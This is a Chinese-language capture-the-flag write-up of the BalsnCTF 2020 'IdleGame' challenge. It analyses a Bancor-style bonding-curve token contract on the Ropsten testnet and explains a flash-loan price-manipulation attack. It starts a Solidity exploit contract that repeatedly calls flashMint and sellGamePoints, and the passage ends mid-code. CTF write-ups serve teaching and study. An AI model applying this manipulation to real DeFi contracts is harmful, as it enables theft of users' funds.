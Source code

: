 这里有一个我们没见过的叫_continuousMint和 _continuousBurn的函数<br>
这个我们跟一下

[![](https://p0.ssl.qhimg.com/t013ad8303e16536b1d.png)](https://p0.ssl.qhimg.com/t013ad8303e16536b1d.png)

发现来自这里<br>
其中有一个calculateContinuousMintReturn函数 继续跟

[![](https://p3.ssl.qhimg.com/t01f47b2e1427ccfa0d.png)](https://p3.ssl.qhimg.com/t01f47b2e1427ccfa0d.png)

可以发现来自如下

[![](https://p3.ssl.qhimg.com/t01b786699dfd804e3a.png)](https://p3.ssl.qhimg.com/t01b786699dfd804e3a.png)

我们直接去Ropsten查看源码，应该是一个开源的。<br>[https://ropsten.etherscan.io/address/0xF88212805fE6e37181DE56440CF350817FF87130#code](https://ropsten.etherscan.io/address/0xF88212805fE6e37181DE56440CF350817FF87130#code)<br>
发现比较巨大的代码，选择去网上查询一下他到底是在干什么<br>
我们可以知道他是一种联合曲线模型，相当于用于计算汇率的一种东西。

[![](https://p1.ssl.qhimg.com/t01140eb71686eda851.png)](https://p1.ssl.qhimg.com/t01140eb71686eda851.png)

通过这里的分析

[![](https://p2.ssl.qhimg.com/t0134ee3aa1fe97bd30.png)](https://p2.ssl.qhimg.com/t0134ee3aa1fe97bd30.png)

那么我们就可以了解到他每一次在buyGamePoints时和sellgamePoints的时候都会计算一遍当前的兑换汇率。如果我们能利用闪电贷的方法，首先贷款BSN买IDL，这样IDL的整体汇率就会下降，可以买到更多的IDL，闪电贷结束之后BSN总值恢复。IDL的价值也会上升，把额外的IDL在高价卖出。这样反复循环，就可以实现利润的赚取了。

## 具体代码部署

Setup是唯一需要部署的，可能是作者为了部署题目方便写的一个合约。<br>
只能在Ropsten上测试，因为Bancor协议合约在Ropsten上。<br>
题目里面的uint randnumber是为了正式比赛 防止上车用的。自己部署随便填个数字进去就可以了。

部署之后就可以再把另外两个合约直接At Address上去了

[![](https://p0.ssl.qhimg.com/t0111dbac6b0eadbe59.png)](https://p0.ssl.qhimg.com/t0111dbac6b0eadbe59.png)

写出解题合约如下:<br>
借鉴了[https://github.com/perfectblue/ctf-writeups/tree/master/2020/BalsnCTF/IdleGame](https://github.com/perfectblue/ctf-writeups/tree/master/2020/BalsnCTF/IdleGame)

```
contract hack`{`
    address  public IDLE=0x3C58715D56513Fd8cE364AB3e797f5D90f346381;
    address  public BALN=0x47897d8B51e55F9AeC4aB0f871F4b85DC3a16776;
    uint public myIDLE;
    uint public temp;
    uint public loan=99056419041694676677800000000000000002;
    bool public first;
    IdleGame IDL=IdleGame(IDLE);
    BalsnToken BSL=BalsnToken(BALN);
    uint public boo;
    function exp()public`{`
        BSL.approve(IDLE,uint(-1));
        BSL.giveMeMoney();
        IDL.flashMint(loan);
        temp=IDL.sellGamePoints(myIDLE);
        IDL.flashMint(loan);
        temp=IDL.sellGamePoints(myIDLE);
        IDL.flashMint(loan);
        temp=IDL.sellGamePoints(myIDLE);
        IDL.flashMint(loan);
```